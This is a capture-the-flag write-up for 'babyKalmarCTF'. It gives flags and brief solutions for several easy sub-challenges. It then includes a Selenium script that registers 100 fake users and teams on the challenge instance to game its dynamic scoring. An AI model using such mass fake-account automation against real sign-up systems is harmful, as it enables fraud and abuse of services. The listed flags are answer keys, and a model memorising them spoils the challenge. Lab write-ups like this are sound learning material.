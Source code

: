 # babyKalmarCTF

Solved by: @OS1R1S and @gr1d

Question: 
Ever played a CTF inside a CTF?

We were looking for a new scoring algorithm which would both reward top teams for solving super hard challenges, but also ensure that the easiest challenges wouldn't go to minimum straight away if more people played than we expected.

Thats when we came across this ingenious suggestion! [https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1](https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1)

We've implemented it this scoring idea(see here: [https://github.com/blatchley/ctfd-dynamic-challenges-mod](https://github.com/blatchley/ctfd-dynamic-challenges-mod) ) and spun up a small test ctf to test it out.

If you manage to win babykalmarCTF, we'll even give you a flag at /flag!

Spin up your own personal babykalmarCTF here: [https://lab1.kalmarc.tf/](https://lab1.kalmarc.tf/)


### Solution:
1. Within babyKalmarCTF there are several categories of challenges:
	- Baby's first RSA adventure (Crypto)
	- My First Flagchecker (Reverse)
	- THE OSINT CHALLENGE (osint)
	- Baffling, Ridiculous And Intriguing Letters, Laughter Ensues! (Misc)
	- Welcome Flag (welcome)
	- Simple  Math Challenge (Impossible)
	- Baby's Second RSA (Impossible)
	- A randcrack challenge (Impossible)
	- The Last Step (Impossible)
	
2. Welcome Flag's solution: 
	![[babykalmar1.png]]
	**Flag:** `babykalmar{welcome_to_babykalmar_CTF}`
	
3. My First Flagchecker's solution:
	 - ltrace will show the strcmp value 
	 ![[babykalmar2.png]]
	 - In disassembler, the string value will show in the .rodata section
	 ![[babykalmar3.png]]
	**Flag:** `babykalmar{string_compare_rev_ayoooooooo}`
	
4. THE OSINT CHALLENGE's solution:
	- Challenge Image given:
	  ![[babykalmar4.png]]
	- Using Google Images, which show is a Department of Computer Science, University in Aarhus, Denmark
	- The city which is located is `aarhus`
	- **Flag:** `babykalmar{aarhus}`
	
5. Baffling, Ridiculous And Intriguing Letters, Laughter Ensues's solution:
	- **Flag:** `BABYKALMAR{SUPERORIGINALMORSECODECHALLENGE}`
	
6. Baby's first RSA adventure's solution:
	- Flag: `babykalmar{wow_you_are_an_rsa_master!!!!!}`

After solving all the challenges, we have to trick the scoring system. Here is the script
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

# Set up Firefox WebDriver
options = webdriver.FirefoxOptions()
options.headless = False

driver = webdriver.Firefox(options=options)

register_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/register"
team_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/teams/new"
logout_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/logout"

for i in range(100): 
    driver.get(register_url)
    
    username = f"FakeUser{i}"
    email = f"fakeuser{i}@example.com"
    password = "P@ssw0rd123"

    driver.find_element(By.ID, "name").send_keys(username)
    driver.find_element(By.ID, "email").send_keys(email)
    driver.find_element(By.ID, "password").send_keys(password)

    driver.find_element(By.ID, "_submit").click()

    time.sleep(2)

    driver.get(team_url)
    
    team_name = f"FakeTeam{i}"
    driver.find_element(By.ID, "name").send_keys(team_name)
    driver.find_element(By.ID, "password").send_keys("TeamP@ssw0rd")

    driver.find_element(By.ID, "_submit").click()

    print(f"Registered {username} & Created Team {team_name}")

    driver.get(logout_url)
    time.sleep(2) 

driver.quit()
```

Here is how it works:
![babykalmar5](babykalmar5.gif)
Then we can get the flag at `/flag` 
![babykalmar6](babykalmar6.gif)
**Flag:** `kalmar{w0w_y0u_b34t_k4lm4r_1n_4_c7f?!?}`

